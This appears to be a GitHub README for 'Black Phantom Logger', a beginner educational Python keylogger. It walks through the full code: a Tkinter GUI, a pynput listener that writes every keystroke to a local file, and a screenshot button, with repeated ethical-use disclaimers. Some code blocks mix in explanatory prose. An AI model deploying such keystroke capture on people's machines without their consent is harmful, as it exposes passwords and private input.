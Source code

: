 ### 💀🕶️ Black Phantom Logger

## ⚠️ Warning & Ethical Considerations
**🚨 This tool is meant for eductional purpose and learning cybersecurity only!**
- Do **not** use this tool without proper authorization.
- Unauthorized use of keyloggers is **illegal and punishable** by law.
- The author **takes no responsibility** for any unethical or misuse use of this code.

🔴 **Use responsibly and ethically.**

## 🛠️ Tools Used
For writing and running the Python script, I used:

Thonny IDE – A beginner-friendly Python environment, great for easy script execution and debugging.

## 📦 Required Python Libraries
Before running the keylogger, install the necessary libraries:

`pip install pynput tkinter opencv-python pyautogui pillow`

# Libraries Explained:

`pynput` – Captures keystrokes in the background.

`tkinter` – Creates the GUI for our Black Phantom Logger.

`opencv-python` – Helps handle images (optional for additional features).

`pyautogui` – Captures screenshots.

`PIL (pillow)` – Supports image manipulation inside the GUI.

## 🚀 Project Overview
This is a simple keylogger with a dark hacker-themed GUI named Black Phantom Logger. It records keystrokes and saves them to a file. It also includes:

A graphical user interface (GUI) using Tkinter.

A dark "hacker-style" theme with a black and green aesthetic.

A button for starting and stopping the keylogger.

A logo of a hacker to enhance the simulation experience.

A feature to capture the screen as an extra functionality.

📜 Code Walkthrough
Let's break down the script step by step!

# 1️⃣ Importing Required Modules

```python
import tkinter as tk
from tkinter import messagebox
from pynput.keyboard import Listener
import os
import pyautogui
from PIL import Image, ImageTk
```

`tkinter` – Creates the graphical interface.

`pynput.keyboard.Listener` – Monitors and records keystrokes.

`os` – Handles file operations.

`pyautogui` – Captures screenshots.

`PIL.Image, ImageTk` – Displays images in the GUI.

# 2️⃣ Creating the GUI (Graphical User Interface)

```python
root = tk.Tk()
root.title("Black Phantom Logger")
root.geometry("400x400")
root.configure(bg="black")
`tk.Tk()` – Initializes the main window.

`title("Black Phantom Logger")` – Sets the program title.

`geometry("400x400")`– Defines the window size.

`configure(bg="black")` – Applies the dark hacker-style theme.
```

3️⃣ Adding a Hacker-Style Logo

```python
logo = Image.open("hacker_logo.png")  # Make sure you have an image named hacker_logo.png
logo = logo.resize((100, 100))
logo = ImageTk.PhotoImage(logo)
logo_label = tk.Label(root, image=logo, bg="black")
logo_label.pack()
Loads a hacker-themed image to enhance the look.

Resizes the image and places it in the GUI.
```

4️⃣ Keystroke Logging Function
 ```python
def log_keystrokes(key):
    key = str(key).replace("'", "")
    with open("keystrokes.txt", "a") as file:
        file.write(key + "\n")
Converts each pressed key into a string.

Saves the keystrokes into a text file (keystrokes.txt).
```

5️⃣ Screenshot Capture Function

```python
def capture_screen():
    screenshot = pyautogui.screenshot()
    screenshot.save("screenshot.png")
    messagebox.showinfo("Screenshot", "Screenshot saved as screenshot.png")
Uses pyautogui.screenshot() to take a snapshot.

Saves the image as "screenshot.png".

Displays a confirmation message.
```

6️⃣ Start & Stop Buttons

```python
def start_logger():
    global listener
    listener = Listener(on_press=log_keystrokes)
    listener.start()
    messagebox.showinfo("Logger", "Keylogger Started!")

def stop_logger():
    if listener:
        listener.stop()
        messagebox.showinfo("Logger", "Keylogger Stopped!")
start_logger() – Begins keylogging in the background.

stop_logger() – Stops the keylogger when needed.
```

7️⃣ Adding Buttons to GUI

```python
start_button = tk.Button(root, text="Start Logging", command=start_logger, bg="green", fg="white")
stop_button = tk.Button(root, text="Stop Logging", command=stop_logger, bg="red", fg="white")
screenshot_button = tk.Button(root, text="Capture Screen", command=capture_screen, bg="blue", fg="white")

start_button.pack(pady=10)
stop_button.pack(pady=10)
screenshot_button.pack(pady=10)
Buttons added:

Start Logging (Green Button)

Stop Logging (Red Button)

Capture Screen (Blue Button)
```
8️⃣ Running the GUI

 ```python
root.mainloop()
root.mainloop() keeps the window running.
```
### 🎭 Features & Hacker Simulation Experience
Dark Theme: A black & green color scheme for a hacker-like feel.

Hacker Logo: Enhances the interface's aesthetics.

Keylogging: Logs all keystrokes into a file.

Screen Capture: Takes a screenshot for additional monitoring.

### ⚠️ Warning & Ethical Considerations

🚨 This tool is meant for learning cybersecurity only!

Do not use this tool without proper authorization.

Unauthorized use of keyloggers is illegal and punishable by law.

The author takes no responsibility for any unethical use.

🔴 Use responsibly and ethically.

### 👨‍💻 How to Run the Keylogger
Install Thonny IDE (if not installed).

Download or clone this repository:
```bash
git clone https://github.com/AhmedSalahHassanQatar/PRODIGY_CS_04
cd PRODIGY_CS_04
```

Install dependencies:
pip install pynput tkinter opencv-python pyautogui pillow
Run the script in Thonny or terminal:
python keylogger.py

## 📜 Final Words
This project is a basic yet powerful way to understand how keyloggers work in a cybersecurity research context. If you're a beginner, this is a great starting point for learning about ethical hacking, Python scripting, and GUI development.

🚀 Happy Learning, and Stay Ethical!
